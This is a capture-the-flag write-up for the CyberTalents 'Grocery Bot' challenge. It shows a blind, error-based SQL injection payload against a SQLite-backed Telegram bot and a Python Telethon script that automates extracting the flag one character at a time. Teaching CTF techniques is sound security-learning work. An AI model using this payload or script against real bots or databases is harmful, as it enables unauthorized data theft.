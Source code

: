 ```yaml
---
title: Grocery Bot Web CTF WriteUp @CyberTalents
author: MBZ0x7
date: 2021-05-06 15:10:00 +0800
categories: [CTF]
tags: [ctf,cybertalents]
pin: false
---
```


### Description
This challenge is hard and requires programming skills to solve it quickly.
```
Its Shopping day

Telegram alias: @ctgrocerybot
```
![](../../assets/img/posts/1/1.png)

### Enumeration
After trying different things. I concluded that it's vulnerable to blind SQLi.
Also, it's using Sqlite.
You can learn more about this type of sqli vulnerability from [here.](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
)

### Manual Exploitation
The payload that we'll be using is below.
```sql
/price flag' AND (SELECT CASE WHEN (SUBSTR(flag,1,1)='a') THEN 1/0 ELSE 'a' END FROM flags)='a"
```
Basically, we'll test lower case alphabets, numbers and underscore for each character flag !

Indeed, you should test uppercase and other non alphanumeric chars, but in our case I know flag possible chars.

In total, over than 3k lines to send to the bot, but you can reduce them by guessing some words in the flag and knowing how it starts,...

### Automatic Exploitation
The problem here that we can't use sqlmap because Telegram uses Websockets for communication.

So, the solution is to write a client to talk to Telegram API and send all payloads to the bot.

First, go to [my.telegram.org/auth](https://my.telegram.org/auth). Add and confirm your phone then go to API development tools and fill in the form with any data.
After that, you'll receive an API_ID and API_HASH that you'll use in the script below.

```python
from telethon.sync import TelegramClient
from string import ascii_lowercase, ascii_uppercase, digits
import time

bot = "@ctgrocerybot"

api_id = 
api_hash = ""

flag_chars = ascii_lowercase + digits + "_"

sleep = 0.5
success = "the item you requested is not found"


flag = "FLAG{"

with TelegramClient('session',api_id,api_hash) as client:
    for pos in range(6, 43):
        for char in flag_chars:
            payload = "/price flag' AND (SELECT CASE WHEN (SUBSTR(flag," + str(
                pos) + ",1)='" + char + "') THEN 1/0 ELSE 'a' END FROM flags)='a"
            print("--> Sending payload: " + payload)
            msg = client.send_message(bot, payload)
            payload_response = client.get_messages(bot)
            print(payload_response[0].message)
            if payload_response[0].message == success:
                flag += char
                print("\033[91m--> Flag: " + flag + "\033[00m")
                break
            print("--> Sleeping for 0.5 seconds")
            time.sleep(sleep)
    client.run_until_disconnected()
flag += "}"
print("\033[91m--> Flag: " + flag + "\033[00m")
```

Make sure to replace `bot`,`api_id` and `api_hash` variables with the corresponding values